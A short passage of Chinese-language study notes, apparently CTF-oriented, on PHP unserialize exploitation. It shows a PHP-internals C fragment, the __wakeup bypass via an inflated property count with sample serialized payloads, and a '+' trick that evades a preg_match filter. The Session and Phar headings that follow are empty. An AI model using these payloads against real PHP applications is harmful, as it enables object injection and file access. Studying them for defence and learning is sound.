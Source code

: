 ~~~php
		}
		if (**p != '\\') {
			ZSTR_VAL(str)[i] = (char)**p;
		} else {
			unsigned char ch = 0;

			for (j = 0; j < 2; j++) {
				(*p)++;
				if (**p >= '0' && **p <= '9') {
					ch = (ch << 4) + (**p -'0');
				} else if (**p >= 'a' && **p <= 'f') {
					ch = (ch << 4) + (**p -'a'+10);
				} else if (**p >= 'A' && **p <= 'F') {
					ch = (ch << 4) + (**p -'A'+10);
				} else {
					zend_string_efree(str);
					return NULL;
				}
			}
			ZSTR_VAL(str)[i] = (char)ch;
		}
		(*p)++;
	}
	ZSTR_VAL(str)[i] = 0;
	ZSTR_LEN(str) = i;
	return str;
}
~~~

#### 反序列化的利用

__wakeup失效
php版本`< 5.6.25 | < 7.0.10`
当序列化字符串中，如果表示对象属性个数的值大于真实的属性个数时就会跳过__wakeup()的执行
例：

~~~php
O:4:"Demo":1:{s:10:"Demofile";s:16:"f15g_1s_here.php";}
O:4:"Demo":2:{s:10:"Demofile";s:16:"f15g_1s_here.php";}
~~~

使用`+`绕过正则
例：

`preg_match('/[oc]:\d+:/i', $var)O:4:"Demo":1:{s:10:"Demofile";s:16:"f15g_1s_here.php";}O:+4:"Demo":1:{s:10:"Demofile";s:16:"f15g_1s_here.php";}`

#### Session序列化问题

#### Phar反序列化



##### phar 触发点
